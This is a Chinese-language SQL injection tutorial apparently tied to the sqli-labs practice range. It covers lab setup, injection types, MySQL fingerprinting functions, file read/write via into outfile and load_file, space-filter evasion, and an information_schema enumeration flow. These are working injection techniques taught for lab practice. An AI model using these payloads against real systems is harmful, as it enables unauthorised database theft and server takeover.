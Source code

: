 # SQL注入

###       0x01 环境需求

                    [SQLi在线靶场](https://sqli-labs.htctf.com/)、[SQLi Github](https://github.com/Audi-1/sqli-labs)、Docker\(镜像\)、Hackbar插件、域名采集器、Google Hack  
                    docker run -dt --name sqli -p 80:80 --rm acgpiano/sqli-labs  
                    docker exec -it imageID /bin/bash  
                    run 运行 -dt 守护进程 --name 别名 --rm 停止运行删除进程

###       0x02 关于SQLinject

                    **SQL:** 是一门ANSI标准的计算机语言，用来**访问**和**操作**数据库系统，SQL语句用来取回和更新数据库中的数据  
                    **原因:** 开发人员对从web表单、cookie、输入参数等收到的值传递给SQL查询之前进行过滤控制  
                    **原理:** SQL代码插入或添加到应用\(用户\)的输入参数中，并且参数在后台SQL服务器中解析和执行  
                    **危害:** 获取数据库内容、读取文件信息、Getshell\(root权限\)  
![](/assets/QQ20190218-174536@2x.png)

###       0x03 注入类型

                      **1.按注入位置:**  
![](/assets/WX20190307-142137@2x.png)  
                      **2.按参数类型:**   
![](/assets/WX20190307-143314@2x.png)  
                    **PS: 搜索型注入:** and '%1'='%1，select _ from users where name like '%tom%'  
                      \*3.按返回结果:_回显注入、无显注入

###       0x04 查看数据库类型

                    **报错显示**:  
![](/assets/QQ20190218-181926@2x.png)  
![](/assets/QQ20190218-181837@2x.png)

###       0x05 函数语句

```sql
    数据库: database()          用户: user()  
    数据库版本: version()
    数据库路径: @@datadir
    操作系统: @@version_compile_os

    查询列数: order by,采用二分法
    联合查询: union,注意列数匹配
    连接函数: concat(),concat_ws(),group_concat()，前两者返回一个数据，后者返回数列

    写文件: into outfile PATH，函数前构建文件   
    读文件: load_file(PATH)  

    /**/或者%a0代替空格、%27代表 '
```

###       0x06 注入流程\(MySQL\)

```sql
    判断注入点: '  and 1=1/2  or 1=1/2,看页面反馈,但是使用or判断时,要设置为错误参数
    查询列数: order by 
    核心注入句:
        查库: select schema_name from information_schema.schemata
        查表: select table_name from information_schema.tables where table_schema='库名'
        查列: select column_name from information_schema.columns where table_name='表名'
        查数据: select 列 from 库名.表名
```



